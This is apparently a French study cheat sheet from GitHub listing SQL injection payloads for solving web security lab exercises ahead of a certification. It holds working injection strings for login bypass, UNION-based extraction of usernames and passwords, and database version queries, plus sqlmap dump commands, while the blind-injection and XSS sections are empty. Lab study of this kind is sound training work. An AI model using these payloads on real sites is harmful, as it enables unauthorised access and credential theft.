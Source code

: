 # Liste des commandes SQLi, XSS, CRCF ect.... pour passer la certification


## 1/ SQL injection

- [X] SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    `?category=Pets' OR 1=1 --`

- [X] SQL injection vulnerability allowing login bypass
    
    `csrf=ok13OxKIWATN6nuJiviRmIaPQBeSNtTB&username=administrator'--&password=test`
    

- [X] SQL injection UNION attack, determining the number of columns returned by the query

    `?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

- [X] SQL injection UNION attack, finding a column containing text

    `?category=Pets'+UNION+SELECT+NULL,'3QFtaD',NULL--`

- [X] SQL injection UNION attack, retrieving data from other tables

    `?category=Gifts'+UNION+SELECT+username,password+from+users--`

- [X] SQL injection UNION attack, retrieving multiple values in a single column

    `?category=Pets'+UNION+SELECT+NULL,CONCAT(username,'+',password)+FROM+users--`
   
- [X] SQL injection attack, querying the database type and version on Oracle

    `?category=Pets'+UNION+SELECT+'a',banner+FROM+v$version--`

- [X] SQL injection attack, querying the database type and version on MySQL and Microsoft

    `?category=Gifts'+UNION+SELECT+@@version,+'a'#` # pour les commentaires en MySQL

- [X] SQL injection attack, listing the database contents on non-Oracle databases

    ```sqlmap -u URL
    
    --all #Retrieve everything
    
    --dump #Dump DBMS database table entries
    
    --dbs #Names of the available databases
    
    --tables #Tables of a database ( -D <DB NAME> )
    
    --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
    
    -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column```
    
    
- [X] SQL injection attack, listing the database contents on Oracle

    ```
    sqlmap -u URL -D DB -T TABLE --dump
    ```

- [ ] Blind SQL injection with conditional responses

- [ ] Blind SQL injection with conditional errors

- [ ] Visible error-based SQL injection

- [ ] Blind SQL injection with time delays

- [ ] Blind SQL injection with time delays and information retrieval

- [ ] Blind SQL injection with out-of-band interaction

- [ ] Blind SQL injection with out-of-band data exfiltration

- [ ] SQL injection with filter bypass via XML encoding






## 2/ XSS
